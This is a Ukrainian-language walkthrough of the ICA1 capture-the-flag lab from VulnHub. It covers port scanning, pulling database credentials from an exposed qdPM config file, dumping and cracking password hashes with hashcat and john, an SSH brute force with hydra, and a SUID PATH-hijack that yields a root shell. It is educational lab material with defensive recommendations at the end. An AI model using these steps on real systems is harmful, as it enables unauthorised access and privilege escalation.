# ica1

В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті [**VulnHub**](https://www.vulnhub.com/entry/ica-1,748/) автором **"onurturali"**.
Відповідно до наданої автором інформації, рівень складності цього CTF — **ЛЕГКИЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-прапорців**.

Для проходження цього CTF необхідно мати **базові знання команд Linux** та **навички використання інструментів для тестування на проникнення**.
Завантажити оригінал CTF можна [тут](https://download.vulnhub.com/ica/ica1.zip).

> ⚠️ **Примітка**: Для запуску всіх віртуальних машин було використано [**Oracle VirtualBox**](https://www.virtualbox.org/).
> Для проходження CTF використано [**Kali Linux**](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) як атакуючу машину.
> Використані методики призначені **виключно для освітніх цілей**.<br>
> **Відповідальность за їх застосування проти будь-яких інших цілей буде визначатись відповідно чинному законодавству.**

---

В документі розглянуто віртуальну машину **ICA1** з платформи для тестування на проникнення яка призначена для тренувань, перевірки надійності мережі та налаштування привілеїв.
Завдання є середньої складності з всебічним випробуванням для відточування навичок тестування на проникнення, пропонуючи реальні сценарії та вектори атак.

У цьому завданні моделюється наступний сценарій.
Згідно з отриманою інформацією, **ICA** працює над секретним проектом.
Нам потрібно з'ясувати, що це за проект, отримати інформацію для доступу до системи, встановити бекдор.
Для цього необхідно буде пройти кілька рівнів безпеки.
Розпочнемо ми з аналізу, далі виявимо відкриті порти та доступні сервіси, продовжимо ідентифікувати вразливості і, нарешті, використаємо ці вразливості для отримання root-доступу.
На завершення розглянемо деякі рекомендації для підвищення стійкості та надійності віртуальної машини.

## **Короткий огляд кроків вирішення CTF**
1. Завантажити та запустити цільову машину та інструмент для дослідження.
2. Отримати **IP-адресу цільової машини** за допомогою **netdiscover**.
3. Просканувати **відкриті порти** за допомогою **nmap**.
4. Дослідити **HTTP-сервіс** на 80 порті. Провести огляд файлової системи web серверів та виявити приховані файли та папки.
5. Скачати та дослідити yaml файлу з параметрами доступу до бази даних.
6. Отримати доступ до сервера MySQL та дослідити облікові записи web користувачів.
7. Скопіювати список користувачів та захешованих паролів на комп'ютер Kali.
8. Встановити файл зі списком ключових слів.
9. Проаналізувати захешовані паролі.
10. Розглянути методи декодувння паролів користувачів.
11. Підібрати паролів користувачів travis і dexter.
12. Дослідити профілі користувачів travis і dexter.
13. Виявити шляхи для підвищення привілеїв.
14. Отримати контроль над системою.

---

## **Проходження CTF крок за кроком**

### **Крок 1: Завантаження цільових машин у VirtualBox***
Після завантаження образу віртуальної машини інтегруємо її у нашу систему.

Традиційно, налаштуємо спочатку мережу для наших віртуальних машин.
Відкриємо у VirtualBox меню File/Tools та виберемо **Network Manager**<br>


На закладці **NAT Networks** створимо нову мережу, пропишемо IP адресу мережі та префікс IPv4<br>


Зайдемо по черзі в налаштування віртуальних машин **Kali Linux** та **ica1** та виберемо для них створену мережу з назвою **NatNetwork**<br>


Запустимо у **VirtualBox** образ **Kali Linux** з командним вікном<br>


та цільову машину для дослідження **ica1**<br>


---

### **Крок 2: Отримання IP-адреси цільової машини за допомогою netdiscover**
Після завантаження та запуску цільової віртуальної машини у **VirtualBox** першим кроком визначимо її IP-адресу.
У нашому розпорядженні є кілька інструментів, таких як ```arp-scan```, ```netdiscover``` та ```nmap```.
Серед названих інструментів найпростішою є команда ```netdiscover -i eth0 -r 192.168.2.1/24```, де
параметер **-i** задає мережевий інтерфейс, наприклад, eth0 або wlan0,
а за допомогою ключа **-r** можна вказати діапазон мережі для сканування.
Опції рекомендують використовувати у випадку, якщо команда без параметрів виконується тривалий час.
Отже, виконаємо:

```sh
sudo netdiscover i eth0 -r 192.168.2.0/24
```

📌 **Результат**:
Ми достатньо швидко отримали IP-адресу цільової машини — **192.168.2.5**.<br>


⚠️ **Примітка**: IP-адреси атакуючої та цільової машин можуть бути іншими залежно від конфігурації вашої мережеі.

---

### **Крок 3: Сканування відкритих портів та доступних сервісів**
На цьому кроці виявимо доступні в системі сервіси та їх версії.
Використаємо ```nmap``` для сканування отриманої IP-адреси на наявність **відкритих портів** та **запущених сервісів**.
Для цього використовуємо команду з ключами **--top-ports -A -sV -P** для виконання агресивного сканування.
- Саме опція **-A** активує агресивні параметри сканування. Вона виконує комплексне сканування, яке включає:
  - **виявлення ОС**; визначає операційну систему цільового об'єкта;
  - **виявлення версій**; визначає версії служб, що працюють на відкритих портах;
  - **сканування скриптів**; запускає скрипти за замовчуванням для збору додаткової інформації про цільовий об'єкт;
  - **трасування**; відображає шлях, яким пакети досягають цільового об'єкта.<br>
- Аргумент **--top-ports** вказує сканувати лише зазначену кількість найпопулярніших портів з файлу **/usr/share/nmap/nmap-services**.
Це дозволяє пришвидшити сканування, перевіряючи лише найімовірніші відкриті порти замість усіх 65535.
- Опція **-sV** дозволяє визначати версії сервісів на портах.
Виконаємо команду:

```sh
nmap --top-ports 100 -A -sV -P 192.168.2.5
```

📌 **Результат**:
Ми побачили три відкриті порти: 22 для служби SSH, 80 для веб-сервера та 3306 для сервера MySQL.
- **22** порт використовується службою **SSH**;
- **80** порт прослуховується веб-сервером;
- **3306** порт використовується запущеним сервером MySQL.<br>


---

### **Крок 4: Дослідження доступності системи через 80 порт**
На попередньому кроці ми виявили відкриті порти.
Спробуємо дослідити машину по протоколу **HTTP**.
Переглянемо розміщену веб-сторінку. Відкриємо веб-браузер та введемо комбінацію IP:порт в URL-адресу.<br>

📌 **Результат**:
У браузері ми побачили сторінку логування під керуванням **qdPM 9.2**.<br>


Цю сторінку входу можна зламати методом повного перебору.
Однак для цього потрібно витратити достатньо багато часу.
Спробуємо знайти інші вразливості безпеки, пов'язані з розкриттям пароля.
Виконаємо команду:

```sh
searchsploit qdPM 9.2.
```

📌 **Результат**:
Ми виявили набір інструкцій, у яких описано кроки, необхідні для використання вразливості.<br>


Знайдемо розміщення файлу **50176.txt**.
Виконаємо команду

```sh
sudo find / -name 50176.txt
```

📌 **Результат**:
Файл **50176.txt** знаходиться у папці **/usr/share/exploitdb/exploits/php/webapps/**.<br>


Виведемо вміст файлу **50176.txt**.
Виконаємо команду

```sh
cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
```

📌 **Результат**:
Ми отримали інформацію пов'язану із потенційною вразливістю системи.<br>


---

### **Крок 5: Скачування та дослідження yaml файлу для доступу до бази даних**
На попередньому кроці ми знашли шлях до файлу **databases.yml** по протоколу **http** з потенційною інформацією для доступу до бази даних.
Завантажимо файл **databases.yml** для подальшого аналізу. Використаємо команду wget:

```sh
wget http://192.168.2.5/core/config/databases.yml
```

📌 **Результат**:
Ми завантажили файл **databases.yml** з інформацією про підключення до бази даних.<br>


Розглянемо вміст скачаного файлу.
Виконаємо команду

```sh
cat databases.yml
```

📌 **Результат**:
Ми отримали назву бази даних, ім'я користувача та пароль для доступу до бази даних
- **dbname**: ``qdpm``;
- **username**: ``qdpmadmin```;
- **password**: ``UcVQCMQk2STVeS6J```.<br>


---

### **Крок 6: Доступ до сервера MySQL та дослідження облікових записів web користувачів**
Використаємо отримані на минулому кроці облікові дані для встановлення з'єднання з раніше ідентифікованим сервером MySQL.
Для з'єднання з базою даних скористаємося консольним клієнтом з користувачем **qdpmadmin** та паролем **UcVQCMQk2STVeS6J**.
Щоб уникнути помилки з **TLS/SSL** сертифікатами, додамо прапорець **--skip-ssl**

```sh
mysql -u qdpmadmin -h 192.168.2.5 --password='UcVQCMQk2STVeS6J' --skip-ssl
```

📌 **Результат**:
Ми приєдналися до сервера **MySQL**.<br>


Виведемо вписок баз даних.
В консолі **MySQL** виконаємо команду:

```sh
show databases;
```

📌 **Результат**:
Ми отримали список баз даних на сервері **MySQL**.<br>


Зафіксуємо базу даних **staff** та виведемо список таблиць.
Виконаємо команди

```sh
use staff;
show tables;
```

📌 **Результат**:
Ми отримали список таблиць бази даних **staff**.<br>


В таблицях **user** та **login** може міститися інформація з даними користувачів.
Виведемо вміст таблиць. Виконаємо команди

```sh
select * from user;
select * from login;
```

📌 **Результат**:
З таблиці **user** ми отримали імена користувачів та їх ролі.
Таблиця **login** містить захешовані по алгоритму MD5 паролі користувачів.<br>


---

### **Крок 7: Підготовка списку користувачів та захешованих паролів на комп'ютері Kali**
Збережемо список імен користувачів у файлі **user.txt**, а список захешованих паролів - у файлі **passwords.txt**.
Для цього спочатку збережемо вміст таблиць **user** та **login** бази даних **staff**.
Використаємо команду ```mysqldump``` на стороні **Kali Linux** та задамо параметри
- ``-h`` IP адреса віддаленого хоста;
- ``-u`` ім'я користувача;
- ``--password=`` 'пароль користувача'; 
- задамо ключ ```--skip-ssl``` щоб уникнути помилки з **TLS/SSL** сертифікатами;
- вкажемо базу даних **staff**;
- вкажемо таблицю **user**;
- та здійснимо перенаправлення у файл **> назва файлу**.

Вийдемо із консолі MySQL та збережемо вміст таблиці **user** у файл **user.txt**.

```sh
exit
mysqldump -h 192.168.2.5 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff user > user.txt
ls -al u*
```

📌 **Результат**:
Ми зберегли вміст таблиці **user** на віртуальній машині **Kali**.<br>


За допомогою команди ```cat``` виведемо вміст файлу **user.txt**

```sh
cat user.txt
```

Знайдемо у файлі **user.txt** список користувачів.<br>


За домовогою редактора ''nano''' залишимо у файлі **user.txt** лише імена користувачів, інші дані видалимо.
Виведемо вміст файлу **user.txt**

```sh
nano user.txt
cat user.txt
```

📌 **Результат**:
У файлі **user.txt** ми отримали лише список користувачів.<br>


Виконаємо схожі операції з таблицею **login** бази даних **staff**.
Спочатку збережемо вміст таблиці **login** у файл **passwords.txt**.

```sh
exit
mysqldump -h 192.168.2.5 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff login > passwords.txt
ls -al p*
```

📌 **Результат**:
Ми зберегли вміст таблиці **login** на віртуальній машині **Kali**.<br>


За допомогою команди ```cat``` виведемо вміст файлу **passwords.txt**

```sh
cat passwords.txt
```

Знайдемо у файлі **passwords.txt** список захешованих по алгоритму MD5 паролі користувачів.<br>


За домовогою редактора ```nano``` залишимо у файлі **passwords.txt** лише захешовані паролі користувачів, інші дані видалимо.
Виведемо вміст файлу **passwords.txt**

```sh
nano passwords.txt
cat passwords.txt
```

📌 **Результат**:
У файлі **passwords.txt** ми отримали лише список захешованих паролів.<br>


---

### **Крок 8: Встановлення файлу зі списком ключових слів**
Серед більшості словників для підбору паролів часто використовується словник **rockyou**.
Це збірка найпопулярніших та потенційних паролів.
У Kali Linux словник знаходиться в каталозі **/usr/share/wordlists/**.
Перейдемо у папку **/usr/share/wordlists** та відобразимо список файлів.
Скористаємося командами:

```sh
cd /usr/share/wordlists
ls
```

📌 **Результат**:
Ми можемо побачити список файлів.<br>


Якщо файл **rockyou.txt** присутній, то переходимо до **9** кроку.<br>


Архів словника **rockyou.txt.gz** можна знайти в репозиторії [**danielmiessler**](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases/) на **GitHub**.<br>


Завантажимо словник по [лінку.](https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).
Виконаємо команду:

```sh
sudo wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
```

📌 **Результат**:
Ми скачали архів типових паролів **rockyou.txt.tar.gz**.<br>


Переглянемо вміст файлів папки

```sh
ls
```

📌 **Результат**:
У папці міститься архів **rockyou.txt.gz** з файлом ключових слів.<br>


Розпакуємо архів **rockyou.txt.gz**. Використаємо команду **gunzip**:

```sh
gunzip rockyou.txt.gz
ls
```

📌 **Результат**:
У папці **/usr/share/wordlists** ми отримали текстовий файл **rockyou.txt** зі списком ключових слів.<br>


---

### **Крок 9: Аналіз захешованих паролів**
Як відомо, хеш MD5 неможливо "декодувати" (розшифрувати) у початковий текст, оскільки це не шифрування, а одностороння математична функція.
Однак, щоб підібрати пароль, на практиці використовують метод брутфорсу (перебору) або словникову атаку, який дає такий самий хеш.
Для цього у **Kali Linux** використовують вбудовані утиліти **Hashcat** та **John the Ripper**.
Обидві утиліти є проінстальовані в **Kali Linux**.
Параметри утиліт можна дізнатися виконавши їх з ключем ```--help```.<br>
<br>


Спочатку ми повинні зрозуміти, які об'єкти ми отримали у файлі **passwords.txt**.
Файл містить список захешованих паролей. Ще раз відобразимо його вміст

```sh
c3VSSkFkR3dMcDhkeTNyRg==
N1p3VjRxdGc0MmNtVVhHWA==
WDdNUWtQM1cyOWZld0hkQw==
REpjZVZ5OThXMjhZN3dMZw==
Y3FObkJXQ0J5UzJEdUpTeQ==
```

Утиліта **Hashcat** не має вбудованих засобів для автоматичної ідентифікації типу хешу.
Щоб дізнатися, який режим хешу (```-m```) нам потрібен, можна проаналізуйте хеш за допомогою спеціальних утиліт ідентифікації, довідників або online сервісами.

Спочатку використаємо вбудовану в **Kali Linux** утиліту **hashid**.
Якщо утиліта не встановлена, її завжди можна додати до системи виконавши команду ```sudo apt install hashid```.
За допомогою параметра ```-m``` передамо одну з наших стрічок у каманду **hashid**.

```sh
hashid -m "c3VSSkFkR3dMcDhkeTNyRg=="
```

📌 **Результат**:
Утиліта не змогла ідентифікувати цей токен. Дійсно він виглядає нестандартно, містить 24 символи і завершується двома знаками рівності.<br>


Спробуємо скористатися online сервісами.
Зайдемо на сервіс ```https://hashes.com/en/tools/hash_identifier```, внесемо один з наших токенів та спробуємо його ідентифікувати.<br>


📌 **Результат**:
Ми отримали підказку від цього сервіса.
Ймовірно спочатку був побудований хеш код від початкового пароля за допомогою алгоритму MD5.
Далі отриманий токен був оброблений за допомогою кодування **Base64**.<br>


Згадаємо стандарти хешування, які використовуються при розробці програмного забезпечення.
Як відомо, хеш MD5 складається з 128 біт, що дорівнює 16 байтам.
Проте для зручності читання та передачі у різних програмних утилітах (зокрема у **Hashcat**), ці 16 байт подають у шістнадцятковій (```Hex```) системі числення, через що токен містить 32 символи.
Тобто, кожен байт записується двома символами у 16-й системі числення (цифри від 0 до 9 та літери від a до f).

Однак, результат хешування за алгоритмом MD5 може також складатися із 22 байтів.
Це відбувається, якщо до результату хешування застосовується кодування **Base64**.
В цьому випадку кожен символ 16-ти байтного токена кодується 6-ма бітами інформації.
Якщо математично розрахувати кількість байт, то отримаємо ```128 : 6 = 21.33```.
Оскільки кількість символів повинна бути цілим числом, то щоб помістити всі біти відбувається заокруглення у більшу сторону.
Так отримуються 22 символи.
У стандартній реалізації  **Base64** (наприклад, згідно зі стандартом ```MIME```) дані заокругляються до найближчого числа, яке кратне до 24 бітів.
Тому, до цих 22-х символів додаються два символи доповнення (padding) ```==```, щоб збільшити довжину рядка до 24 символів.

Отже в базі даних зберігаються захешовані паролі в кодуванні **Base64**.
Щоб скористатися утилітою **Hashcat** або **John the Ripper** нам потрібно спочатку декодувати кожен рядок з **Base64** у вихідний 16-символьний токен, який далі перетворити у HEX формат.
Для цього використаємо утиліту **base64**. За допомогою параметра ```-d``` можна задати як файл, так і окремий токен.
Щоб результат не злився в одну стрічку, використаємо утиліту **fold**. За допомогою параметра ```-w``` вкажемо кількість символів в кожній стрічці.
Щоб зберегти результат виконаємо перенаправлення у файл **passwords_md5.txt**. 

```sh
base64 -d passwords.txt | fold -w 16
base64 -d passwords.txt | fold -w 16 > passwords_md5.txt
cat passwords_md5.txt
```

📌 **Результат**:
Ми отримали 16-ти символьні хеш коди паролів користувачів бази даних.<br>


Ще раз відобразимо вміст файлу **passwords_md5.txt**.

```sh
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```

Дослідимо отримані токени. Знову скористаємося утилітою **hashid**.
Передамо одну з отриманих стрічок у команду.

```sh
hashid -m "DJceVy98W28Y7wLg"
```

📌 **Результат**:
Утиліта **hashid** розпізнала хеш код та запропонувала режим роботи команди **hashcat -a 2400**.<br>


Переведемо отримані 16-ти байтні токени у 16-ву систему числення.
Одним з найпростіших інструментів для цього є утиліта **xxd**.
Використаємо її з ключем ```-p``` (postscript), який дозволяє виводити значення послідовно, без додаткової службової інформації.
За допомогою ключа ```-c:500``` задамо кілкість колонок, тобто довжину стрічки в парі з ключем ```-p```.
Щоб не видаляти коди переходу на нову стрічку в якості джерела даних використаємо **base64**.
Результат збережемо у файл **passwords_hex.txt**.

```sh
base64 -d passwords.txt | xxd -p -c:500 | fold -w 32
base64 -d passwords.txt | xxd -p -c:500 | fold -w 32 > passwords_hex.txt
cat passwords_hex.txt
```

📌 **Результат**:
Ми отримали 32-х символьні хеш коди паролів користувачів бази даних у 16-вій системі числення.<br>


Ще раз відобразимо вміст файлу **passwords_hex.txt**.

```sh
7375524a416447774c70386479337246
375a7756347174673432636d55584758
58374d516b5033573239666577486443
444a6365567939385732385937774c67
63714e6e4257434279533244754a5379
```

Для перекодування хеш кодів з формату **Base64** у 32-х символьні хеш коди можна також скористатися online сервісами.
Наприклад, використаємо сервіс ```https://base64.guru/converter/decode/hex```.
Внесемо один із 24-х символьних токенів у поле введення і виконажмо декодування.

📌 **Результат**:
Ми отримали 32-х символьний хеш код першого користувача, який повністю співпадає з отриманим вище.<br>



Щоб перевірити отримані 32-х символьні токени скористаємося інструментом **hashid**.
Передамо один з токенів у команду.

```sh
hashid -m "444a6365567939385732385937774c67"
```

📌 **Результат**:
Утиліта **hashid** розпізнала хеш код та запропонувала кілька режимів роботи команди **hashcat**.
Зокрема, для отриманих токенів ми можемо використати основний режим **-a 0**.<br>


---

### **Крок 10: Декодування паролів користувачів**
**Hashcat** є одним з найкращих інструментів для відновлення паролів на основі значення хеш функції.
Утиліта підтримує кілька режимів атаки, більше 300-т алгоритмів хешування та вміє використовувати потужності процесора і відеокарти (GPU).

Для коректної роботи **Hashcat** потрібно мати достатній об'єм оперативної пам'яті.
Зокрема, мінімальноий розмір пам'яті для версії ```7.1.2``` становить 4 Gb.
Встановимо у віртуальній машині **Kali Linux** 8 Gb. оператвної пам'яті.<br>


Опишемо деякі важливі параметри утиліти **hashcat**.
- Ключ ```-m``` задає тип хешування, зокрема ```-m 0``` вказує на тип хешу MD5. Утиліта **hashid** може нам порекомендувати параметр ключа ```-m```.
- Ключ ```-a``` задає на тип атаки, зокрема ```-a 0``` сигналізує утиліті використовувати словник, a параметр ```-a 3``` вказує на використання режиму брутфорсу з перебором по масці.
- Якщо графічний процесор на нашій машині інтегрований, має малий обсяг відеопам'яті або ми працюємо у віртуальному середовищі, як наприклад в нашій ситуації, то тоді потрібно використовувати системний процесор та оперативну пам'ять замість графічного процесора. Для цьлго будемо використовувати ключ ```-D 1```.

У випадку використання режиму брутфорсу ми можемо задавати маску за допомогою послідовності символів.<br>


Продемонструємо використання утиліти **hashcat**.
Спочатку підготуємо простий хешкод за алгоритмом MD5, а потім використаємо **hashcat** для відновлення початкового токена.
За допомогою утиліти **md5sum** знайдемо хешкод символів ```aa``` та збережемо результат у файл **simple.txt**.
Використаємо утиліту ```cut``` щоб зберегти у файл лише 32 символи, ігноруючи пробіл та кінцеві символи.

```sh
echo "aa" | md5sum
echo "aa" | md5sum | cut -c 1-32 > simple.txt
cat simple.txt
```

📌 **Результат**:
У файлі **simple.txt** ми отримали 32 символи хеш коду за алгоритмом MD5 токена ```aa``` у 16-й системі числення.<br>


Застосуємо утиліту **hashcat** в режимі брутфорсу з перебором по масці.

```sh
hashcat -m 0 -a 3 -D 1 simple.txt ?a?a
```

📌 **Результат**:
Утиліта **hashcat** запропонувала перший символ ```a```.<br>
<br>


Знову використаємо утиліту **hashcat** для пошуку другого символа. В маску вставимо знайдений перший символ.

```sh
hashcat -m 0 -a 3 -D 1 simple.txt a?a
```

📌 **Результат**:
Утиліта **hashcat** змогла побудувати токен ```aa```, який повністю співпадає з початковим.
Зауважимо, що повне початкове відновлення трапляється дуже рідко.
Зазвичай **hashcat** пропонує інший токен, який в результаті дає такий самий хеш код.<br>
<br>


Повернемося до аналізу хеш кодів з файлу **passwords_hex.txt**.
Збережемо, наприклад, хеш код ```444a6365567939385732385937774c67``` користувача ```dexter``` у файл **hash4.txt** та використаємо словник ```/usr/share/wordlists/rockyou.txt```.

```sh
cat passwords_hex.txt | grep 444
cat passwords_hex.txt | grep 444 > hash4.txt
cat hash4.txt
hashcat -m 0 -a 0 -D 1 hash4.txt /usr/share/wordlists/rockyou.txt
```

📌 **Результат**:
Утиліта **hashcat** запропонувала початкове значення токена ```kristenanne```.<br>
<br>



Застосуємо утиліту **John the Ripper** для аналізу хеш коду у файлі **hash4.txt**.

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash4.txt
```

📌 **Результат**:
Утиліта **John the Ripper** запропонувала початкове значення токена ```1QWER```.<br>


Застосуємо утиліту **hashcat** в режимі брутфорсу з перебором по масці.
Будемо виконувати підбір всіх паролів довжиною 1-16 з можливими символами ```A-Z```,  ```a-z``` та  ```0-9```.

```sh
hashcat -m 0 -a 3 -D 1 hash4.txt ?1?1?1?1?1?1?1?1?1?1?1?1?1?1?1?1 --increment -1 ?l?d?u
```

📌 **Результат**:
Робота утиліти **hashcat** може зайняти достатньо багато часу.<br>


Розглянемо два 16-ти символьних хеш коди паролів з файлу файлу **passwords_md5.txt**.

```sh
DJceVy98W28Y7wLg
7ZwV4qtg42cmUXGX
```

Збережемо ці значення у файлі **password_clean.txt**.<br>


Використаємо файл **password_clean.txt** в якості словника.
Виконаємо команду **hashcat** в режимі використання словника і переконаємося, що отримані "паролі" підійдуть для 32 бітного хеш коду з файлу **hash4.txt**.

```sh
hashcat -m 0 -a 0 -D 1 hash4.txt password_clean.txt
```

📌 **Результат**:
Утиліта **hashcat** запропонувала хеш ```7ZwV4qtg42cmUXGX```.<br>
<br>


Аналогічно скопіюємо в окремий файл хеш код користувача ```Travis``` на використаємо утиліту **hashcat** зі словником **password_clean.txt**.

```sh
cat passwords_hex.txt | grep 666
cat passwords_hex.txt | grep 666 > hash3.txt
cat hash3.txt
hashcat -m 0 -a 0 -D 1 hash3.txt password_clean.txt
```

📌 **Результат**:
Утиліта **hashcat** запропонувала хеш ```DJceVy98W28Y7wLg```.<br>
<br>


---

### **Крок 11: Підбір паролів користувачів travis і dexter**
На попередніх кроках ми підготували файл **user.txt** зі списком користувачів та **password_clean.txt** з їхніми захешованими паролями.
Поправимо вміст файлу **user.txt**, переведемо всі символи у нижній регістр.
Для цього скористаємося стандартною утилітою ``sed```. Застосуємо параметри
- Ключ ```-i``` означає виконати заміну в основному файлі.
- Параметр ```s``` вказує на режим заміни після якої в слешах вказуємо що шукаємо і на що замінюємо.
- Шаблон ```.*``` задає перегляд всіх символів, а шаблоном ```\L&``` вказуємо перевести у нижній регістр.

Для контролю будемо виводити вміст файлу **user.txt**.

```sh
cat user.txt
sed -i 's/.*/\L&/' user.txt
cat user.txt
```

📌 **Результат**:
Файл **user.txt** містить список користувачів у нижньому регістрі.<br>


Далі ми спробуємо використати отримані імена користувачів та закодовані паролі для здійснення атаки методом перебору на SSH-сервіс який працює на 22 порті.
Для цього використаємо команду **hydra**.
Це вбудований у **Kali Linux** інструмент, який використовується в кібербезпеці та тестуванні для швидкого підбору паролів методом брутфорс (перебору) у реальному часі.
**Hydra** підтримує понад 50 протоколів, включаючи SSH, FTP, HTTP, HTTPS, SMB.<br>

Спробуємо підібрати пароль користувачів **travis** та **dexter**.
Скористаємося наступними параметрами команди **hydra**.<br>
- **hydra** це команда для запуску **hydra**, інструменту для злому паролів методом повного перебору;
- прапорець **-l dexter** вказує ім'я користувача для входу, яке буде використовуватися для атаки повним перебором; в нашому випадку будемо використовувати **travis** та **dexter**;
- за допомогою прапоря **-L user.txt** ми можемо задати файл **user.txt** зі списком користувачів;
- прапорець **-P password_clean.txt** вказує шлях до файлу зі списком паролів, який **hydra** використовуватиме для атаки; ми використаємо **password_clean.txt**;
- параметр **-f** вказує **hydra** зупинитися після першого успішного входу;
- параметр **192.168.2.5** задає цільову IP-адресу для служби SSH;
- параметр **ssh** вказує на протокол, по якому відбуватиметься вхід.

Виконажмо команди для всіх користувачів та **travis** і **dexter** окремо.

```sh
hydra -L user.txt -P password_clean.txt -f 192.168.2.5 ssh .
hydra -l travis -P password_clean.txt -f 192.168.2.5 ssh .
hydra -l dexter -P password_clean.txt -f 192.168.2.5 ssh .
```

📌 **Результат**:
Утиліта **hydra** змогла підтвердити доступ користувачів **travis** і **dexter** за допомогою кодів ```DJceVy98W28Y7wLg``` і ```7ZwV4qtg42cmUXGX``` відповідно.<br>
<br>
<br>


---

### **Крок 12: Дослідження профілів користувачів travis і dexter**
На попередньому кроці ми отримали паролі користувачів **travis** і **dexter**.
Використовуючи ці облікові дані спробуємо увійти до цільової машини по протоколу **ssh**.

Спочатку скористаємося обліковими даними користавача **travis**.
Виконаємо команду ```ssh``` та введемо пароль ```DJceVy98W28Y7wLg```.
Виведемо список файлів та папок в профілі користавача **travis**.

```sh
ssh travis@192.168.2.5
ls -al
cat user.txt
```

📌 **Результат**:
Ми увійшли до цільової машини під користувачем **travis**.
В обліковому записі **travis** ми не знайшли нічого вартого уваги.<br>


Далі підключимося до комп'ютер використавши облікові дані користавача **dexter**.
Використаємо в якості пароля значення ```7ZwV4qtg42cmUXGX``` та виведемо список файлів профіля.

```sh
ssh dexter@192.168.2.5
ls -al
```

📌 **Результат**:
Ми увійшли до цільової машини під користувачем **dexter**.
В профілі користувача Dexter ми знайшли цікавий файл **note.txt**.<br>


Виведемо вміст файлу **note.txt**.

```sh
cat note.txt
```

📌 **Результат**:
В профілі користувача Dexter ми знайшли цікавий файл **note.txt** зі вмісту якого ми отримали корисну інформацію, яку можна використовувати далі.<br>


---

### **Крок 13: Дослідження потенційних шляхів для підвищення привілеїв**
Вміст файлу **note.txt** підказує нам виконати пошук виконавчих файлів, які потенційно ми можемо використати.
Як відомо, виконавчі файли з встановленим бітом ```setuid``` виконуються з дозволами власника файлу.
Зазвичай це може призвести до ненавмисного підвищення привілеїв, якщо система не була налаштована належним чином.

Скористаємося командою **find** для пошуку файлів, що мають привілеї ```SUID``` та належать користувачу ```root```.
Пошук будемо виконувати всій файловій системі, починаючи з кореневого каталогу ```/```.
Задамо параметр **-type f** щоб шукати файли з встановленим бітом дозволу ```setuid``` **-perm -4000**.
Це зазвичай вказує на те, що такі файли можна виконувати з правами власника файлу.
Щоб отримати детальну інформацію для кожного зі знайдених файлів будемо виконувати команду **ls -al**, а будь-які помилки **2>/dev/null** будуть пригнічуються.

```sh
find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
```

📌 **Результат**:
Ми отримали список файлів з встановленим бітом ```setuid``` та власником ```root```.<br>


Як видно з результатів пошуку, перший файл **/opt/get_access** не є типовим файлом чи каталогом операційної системи.
Тому він привертає увагу. Спробуємо запустити цей файл на виконання.

```sh
/opt/get_access
```

📌 **Результат**:
В результаті виконання ми отримали деяку інформацію.<br>


Скористаємося командою ```strings``` щоб отримати текстові або символьні послідовності, які вбудовані у бінарний файл.
Ці символьні аослідовності можуть дати уявлення про функціональність або призначення бінарного файлу та виявити жорстко закодовані значення і параметри конфігурації.

```sh
strings /opt/get_access
```

📌 **Результат**:
Ми помітили незвичайний рядок, виділений у системному виводі: **cat /root/system_info**.
Отже ми можемо спробувати використати цю команду.<br>


---

### **Крок 14: Отримання контролю над системою**
Щоб скористатися виявленою вразливістю створимо власний виконавчи файл **cat**, наприклад, у папці **/tmp**.
Далі створимо командний файл, який буде запускати **bash**.
Виконаємо команди

```sh
echo "/bin/bash" >> /tmp/cat
ls -al /tmp
cat  /tmp/cat
```

📌 **Результат**:
Ми створили командний файл **cat** у папці **/tmp**, який запускає **bash**.<br>


Щоб наш файл **/tmp/cat** можна було виконувати з **/opt/get_access** він повинен бути виконавчим.
Змінимо права доступу до файлу **/tmp/cat**.

```sh
chmod +x /tmp/cat
ls -al /tmp
```

📌 **Результат**:
Файл **/tmp/cat** став виконавчим.<br>


Як відомо, змінна середовища «**PATH** визначає, де оболонка буде шукати виконавчі файли під час введення команди.
Встановимо змінну середовища **PATH** так, щоб файл **/tmp/cat** був першим у списку виконання.
Виконаємо команди

```sh
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

📌 **Результат**:
Папка **/tmp** є першою у списку шляхів змінної **PATH**.
Це означає, що при зверненні до системної команди **cat** в дійсності виконається наша команда з папки **/tmp**.
Якщо викликаючий процес буде мати вищі привілеї, то і наша команда теж їх отримає.<br>


Виконаємо команду **/opt/get_access**.
Для цієї команди встановлений біт ```setuid``` і отже вона працює від імен ```root```.
Оскільки ця команда виконує **cat /root/system_info**, то буде запущено нашу команду **/tmp/cat** з правами ``root```.

```sh
/opt/get_access
ls
```

📌 **Результат**:
Ця команда запустила нову оболонку **bash** з правами **root**.
Ми отримавши доступ до всієї системи та можемо виконувати будь-які дії.
Фактично ми встановлюючи право власності на цю систему.<br>


✅ **Фінальний прапорець отримано! CTF завершено!** 🎯  

---

## **Рекомендації**

1. Застосовуйте політики надійних паролів:
   - Використовуйте складні та унікальні паролі для всіх облікових записів.
   - Впроваджуйте багатофакторну автентифікацію, щоб зменшити ризик атак на основі облікових даних.

2. Не зберігайте конфіденційні дані у цільвій системі:
   - Переконайтеся, що конфіденційні файли безпечно зберігаються та зашифровуються.
   - Уникайте розміщення конфіденційних файлів у загальнодоступних веб-каталогах.
   - Не зберігайте конфіденційних даних у вигляді коментарів в текстових файлах та html-ресурсах.

3. Обмежте доступ до інтерфейсів керування:
   - Обмежте доступ до sudo, завжди просіть введення пароля.
   - Запроваджуйте обмеження для входу користувачів системи між собою по протоколу ssh.

4. Проводьте регулярні аудити безпеки:
   - Виконуйте регулярні оцінки безпеки для виявлення та зменшення вразливостей.
   - Зверніть особливу увагу на тих, які пов'язані з ескалацією привілеїв.
   - Перегляньте та обмежте привілеї **sudo** до необхідного мінімуму.

